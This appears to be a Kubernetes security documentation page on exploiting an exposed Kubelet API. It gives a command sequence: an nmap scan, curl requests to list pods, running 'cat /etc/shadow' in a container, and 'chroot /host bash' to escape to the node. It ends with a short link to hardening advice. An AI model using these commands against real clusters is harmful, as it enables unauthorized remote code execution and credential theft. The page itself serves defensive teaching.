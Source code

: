 ```yaml
---
sidebar_position: 9
title: "Exposed Kubelet API"
description: "How an exposed Kubelet API can be exploited to execute commands on nodes and compromise Kubernetes clusters."
---
```


# Exposed Kubelet API

The **Kubelet API** is responsible for managing pods on each node in a Kubernetes cluster. If improperly secured, attackers can **execute commands on worker nodes, retrieve secrets, and gain full control over workloads**.

---

## Exploitation Steps: Gaining Access to the Kubelet API

An attacker scans the cluster network to identify an open **Kubelet API port (10250)**.

### Step 1: Scan for Open Ports

The attacker runs a network scan to discover exposed Kubelets:

```bash
nmap -p 10250 --open <cluster-ip-range>
```

### Step 2: Query the Kubelet API

If authentication is **not enforced**, the attacker lists running pods:

```bash
curl -k https://<kubelet-ip>:10250/pods
```

### Step 3: Execute Commands on a Node

If the Kubelet API allows unauthenticated execution, the attacker runs a command inside a pod:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/<namespace>/<pod-name>/<container-name>" -d 'cmd=cat /etc/shadow'
```

### Step 4: Escalate Privileges

If the attacker gains access to a privileged container, they execute commands on the **host node**, leading to cluster-wide compromise:

```bash
curl -k -X POST "https://<kubelet-ip>:10250/run/default/root-container" -d 'cmd=chroot /host bash'
```

### Result

The attacker now has **remote code execution** on a Kubernetes worker node and can **compromise the entire cluster**.

---

## Mitigation Steps

To protect against **Kubelet API exposure**, follow the security best practices outlined in:

➡ **[Kubelet Security](/docs/best_practices/cluster_setup_and_hardening/kubelet_security)**

This guide covers techniques such as **disabling anonymous access, enforcing authentication, using RBAC to restrict API actions, and securing network access** to prevent unauthorized control over Kubelet APIs.
